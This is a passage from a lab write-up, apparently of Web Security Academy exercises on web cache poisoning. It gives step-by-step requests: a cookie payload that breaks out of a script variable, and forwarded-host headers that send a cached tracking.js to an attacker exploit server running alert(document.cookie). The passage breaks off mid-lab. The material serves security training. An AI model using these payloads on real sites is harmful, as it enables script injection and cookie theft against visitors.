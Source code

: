 ### LAB: Web cache poisoning with an unkeyed cookie
Send a `GET / HTTP/2` request and notice the response is setting a header with `Set-Cookie: fehost=prod-cache-01;` and the value is reflected inside:

    <script>
        data = {"host":"0a35009a0360ce0880088faf00fa0001.web-security-academy.net","path":"/","frontend":"prod-cache-01"}
    </script>

This indicates that we can manipulate the cache via the `Cookie` header. Now send the `GET / HTTP/2` request with this header:

    Cookie: "};alert(1)//

This will successfully breaks out of the `data` variable and call the `alert(1)` function in the response:

    <script>
        data = {"host":"0a35009a0360ce0880088faf00fa0001.web-security-academy.net","path":"/","frontend":""};alert(1)//"}
    </script>

Send the request to make the cache server store it. When the victim visits `/`, he will be served with the response with our script injected.

### LAB: Web cache poisoning with multiple headers
Notice when making the request `GET / HTTP/2`, the browser also makes a request to `/resources/js/tracking.js`. Examine this request, when we add a `X-Forwarded-Scheme` header with a value of anything other `https`, the server responds with a `HTTP/2 302 Found` and this header:

    Location: https://0a6a007f04f8d5ea819d34fa00070065.web-security-academy.net/resources/js/tracking.js

Try adding this header:

    X-Forwarded-Host: exploit-0ae200d70401d5b48132337a0177006e.exploit-server.net/exploit

Notice the `Location` header has changed to this value and append it with `resources/js/tracking.js`:

    Location: https://exploit-0ae200d70401d5b48132337a0177006e.exploit-server.net/exploit/resources/js/tracking.js

To effectively change the location of the page to where our script resides, just add `#` to ignore the appended part. Add the `alert(document.cookie)` script to the exploit server and make this request:

    GET /resources/js/tracking.js HTTP/2
    Host: 0a6a007f04f8d5ea819d34fa00070065.web-security-academy.net
    X-Forwarded-Scheme: http
    X-Forwarded-Host: exploit-0ae200d70401d5b48132337a0177006e.exploit-server.net/exploit#

Now the cache server stores the response with the `Location` header set to our exploit server. Whenever the victim visits `/` he will be redirected to our exploit server.

### LAB: Targeted web cache poisoning using an unknown header
Notice the `Vary: User-Agent` header, this helps us identify that the `User-Agent` header is a cache key.
First, to deliver the exploit to the victim, we need to identify the victim's `User-Agent`. Post a comment with this body:
